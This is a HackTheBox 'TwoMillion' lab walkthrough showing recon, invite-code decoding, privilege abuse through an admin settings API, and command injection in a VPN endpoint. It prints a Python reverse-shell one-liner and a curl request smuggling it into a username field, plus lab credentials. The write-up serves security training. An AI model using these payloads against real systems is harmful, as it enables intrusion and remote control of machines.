

# TwoMillion

## Overview

A Linux machine retired on the very day it launches for celebrating 2M users on the HackTheBox platform.



## Reconnaissance

### Hostname

We see the hostname `2million.htb` in the HTTP response, so that we put it in our hosts file `/etc/hosts`.

<pre class="language-bash"><code class="lang-bash"><strong>$ curl -i http://&#x3C;IP>
</strong></code></pre>

The site is hosted behind an Nginx server, as we can see in the response header `Server`. Thus we also fuzz the HTTP request `Host` header, and it seems that there's no other virtual host.


```bash
$ ffuf -u http://2million.htb -H 'Host: FUZZ.2million.htb' -w path_to_subdomains-top1million-5000.txt
```


### URL Path

We can use `devtool` console with CSS selectors to find more URL paths to get more knowledge about this Web App.

```javascript
document.querySelectorAll('[href]').forEach(x=>console.log(x.href)
document.querySelectorAll('[src]').forEach(x=>console.log(x.src)
```

Also, we use `ffuf` to find more URL paths:

```bash
$ ffuf -u http://2million.htb/FUZZ -w /usr/share/SecLists/Discovery/Web-Content/raft-medium-words.txt -fs 162

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://2million.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/raft-medium-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 162
________________________________________________

login                   [Status: 200, Size: 3704, Words: 1365, Lines: 81, Duration: 252ms]
register                [Status: 200, Size: 4527, Words: 1512, Lines: 95, Duration: 251ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 233ms]
404                     [Status: 200, Size: 1674, Words: 118, Lines: 46, Duration: 230ms]
home                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 229ms]
api                     [Status: 401, Size: 0, Words: 1, Lines: 1, Duration: 231ms]
invite                  [Status: 200, Size: 3859, Words: 1363, Lines: 97, Duration: 232ms]
:: Progress: [63087/63087] :: Job [1/1] :: 175 req/sec :: Duration: [0:06:04] :: Errors: 0 ::
```

### Register Process

From the pages `/invite` and `/register`, we see that a user must have the right invite code to register as a new member.

### Invite Code

From the code contained in the functionscript `/js/inviteapi.min.js`, we see that we can get the invite code by calling the functiono `makeInviteCode` in page `/invite`.

<figure><figcaption><p>Calling the function <code>makeInviteCode</code> defined by a <code>eval</code> function in the script <code>/js/inviteapi.min.js</code>.</p></figcaption></figure>

From the `enctype` ROT13 hint, we can assume that the data is encrypted by rotating with offset 13. We can then get the plaintext by the following Python script:


```python
import string

def decrypt(cipher):
    plain = ''
    for c in cipher:
        if c in string.ascii_letters:
            plain += chr((ord(c.lower())-ord('a')+13) % 26 + ord('a'))
        else:
            plain += c
    print(plain)

decrypt('Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr')
```


Then we get the procedure to generate the invite code:

```bash
$ python3 decrypt.py 
in order to generate the invite code, make a post request to /api/v1/invite/generate
$ curl -XPOST http://2million.htb/api/v1/invite/generate
{"0":200,"success":1,"data":{"code":"R1ZJWFctOUVYNVAtWDg5ME4tSzNCUkc=","format":"encoded"}}
$ echo -n 'R1ZJWFctOUVYNVAtWDg5ME4tSzNCUkc=' | base64 -d
GVIXW-9EX5P-X890N-K3BRG
```

We can register a new user with the generated invite code now.

### Home Page

After login successfully, we can see the classical HackTheBox home page.

Only `/home/access`, `/home/rules`, and `/home/changelog` pages are functional.

We can download `.ovpn` file using related API `/api/v1/user/vpn/generate`, but we can't use it with `openvpn` to establish a VPN session.

### API Endpoints

As an authenticated user, we can get a list of API endpoints via the path `/api/v1` now:


```bash
$ curl http://2million.htb/api/v1 -l -H 'Cookie: PHPSESSID=con8fjcogd68ijh3slf0la0ngb' -s | jq .
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```


Among these endpoints, it seems that we can use the `/api/v1/admin/settings/update` one with our authenticated user.

> We shall inspect all the endpoints to check if authentication broken exists.

After some errors and tries, we figure out the usage of this endpoint and make our user as admin now.


```bash
$ curl -XPUT -l -H 'Cookie: PHPSESSID=<PHPSESSID>' http://2million.htb/api/v1/admin/settings/update  -i
{"status":"danger","message":"Invalid content type."}

$ curl -XPUT -l -H 'Cookie: PHPSESSID=<PHPSESSID>' http://2million.htb/api/v1/admin/settings/update  -i -H 'Content-Type: application/json'
{"status":"danger","message":"Missing parameter: email"}

$ curl -XPUT -l -H 'Cookie: PHPSESSID=<PHPSESSID>' http://2million.htb/api/v1/admin/settings/update? -d '{"email":"<user email>"}'  -i -H 'Content-Type: application/json'
{"status":"danger","message":"Missing parameter: is_admin"}

$ curl -XPUT -l -H 'Cookie: PHPSESSID=<PHPSESSID>' http://2million.htb/api/v1/admin/settings/update? -d '{"email":"<user email>", "is_admin": "true"}'  -i -H 'Content-Type: application/json'
{"status":"danger","message":"Variable is_admin needs to be either 0 or 1."}

$ curl -XPUT -l -H 'Cookie: PHPSESSID=<PHPSESSID>' http://2million.htb/api/v1/admin/settings/update? -d '{"email":"<user email>", "is_admin": 1}'  -i -H 'Content-Type: application/json'
{"id":13,"username":"<username>","is_admin":1}
```


We can authenticate as an admin now.

<figure><figcaption><p>We are admin now.</p></figcaption></figure>

## Initial Access

### VPN Generation

As before, being an admin now, we can figure out the parameters needed to use the other endpoint `/api/v1/admin/vpn/generate`:


```bash
$ curl -XPOST -H 'Cookie: PHPSESSID=<PHPSESSID>' http://2million.htb/api/v1/admin/vpn/generate -i -H 'Content-Type: application/json' -d '{"username": "<username>"}'
```


### Command Injection

The response contains an OpenVPN connection configuration. The configuration is generated via calling an external command, most possibly, in the backend, so it's likely that the endpoint may have a command injection vulnerability.

We can confirm our guess by inserting commands like `ping -c 1 <our_ip>` or `sleep 10`, etc.

### Reverse Shell

To use the one-line reverse shell written in Python:


```bash
python3 -c 'import socket,pty,os;s=socket.socket();s.connect(("10.10.14.9",4444));[os.dup2(s.fileno(),i) for i in range(3)];pty.spawn("/bin/bash");'
```


We encode our shell script with base64 encode:


```bash
$ cat back.sh |base64 -w0
cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxwdHksb3M7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuMTAuMTQuOSIsNDQ0NCkpO1tvcy5kdXAyKHMuZmlsZW5vKCksaSkgZm9yIGkgaW4gcmFuZ2UoMyldO3B0eS5zcGF3bigiL2Jpbi9iYXNoIik7Jwo=
```


Finally, we insert it into the API endpoint to execute a remote command and get our reverse shell back:


```bash
$ curl -XPOST -H 'Cookie: PHPSESSID=con8fjcogd68ijh3slf0la0ngb' http://2million.htb/api/v1/admin/vpn/generate -i -H 'Content-Type: application/json' -d '{"username":"jarjar;echo -n cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxwdHksb3M7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuMTAuMTQuOSIsNDQ0NCkpO1tvcy5kdXAyKHMuZmlsZW5vKCksaSkgZm9yIGkgaW4gcmFuZ2UoMyldO3B0eS5zcGF3bigiL2Jpbi9iYXNoIik7Jwo=|base64 -d|bash"}'
```


### Code Review

We can see the cause of the command injection vulnerability in the PHP code `/var/www/html/controllers/VPNController.php`:

```php
    public function regenerate_user_vpn($router, $user = null) {
        if ($user != null) {
            exec("/bin/bash /var/www/html/VPN/gen.sh $user", $output, $return_var);
        } else {
            if (!isset($_SESSION['loggedin']) || $_SESSION['loggedin'] !== true) {
                return header("HTTP/1.1 401 Unauthorized");
                exit;
            }
            if (!isset($_SESSION['username']) || $_SESSION['username'] == null) {
                return header("HTTP/1.1 401 Unauthorized");
                exit;
            }

            $username = $this->remove_special_chars($_SESSION['username']);
            $fileName = $username. ".ovpn";

            exec("/bin/bash /var/www/html/VPN/gen.sh $username", $output, $return_var);

            $this->download_vpn($fileName);
        }
    }
```

From the file `/var/www/html/.env`, we found the database credential:

```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Now we can log in as `admin` via SSH into the machine with the above credential now.

## Privilege Escalation

### Enumeration

After some effort, we found a mail file `/var/mail/admin` for the user admin.


```
$ cat /var/mail/admin 
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```


The content suggests kernelthat we may get privilege escalation via a kernerl vulnerability related to the OverlayFS implementation.

### Exploit

We can find and use the following exploit to get the root account.


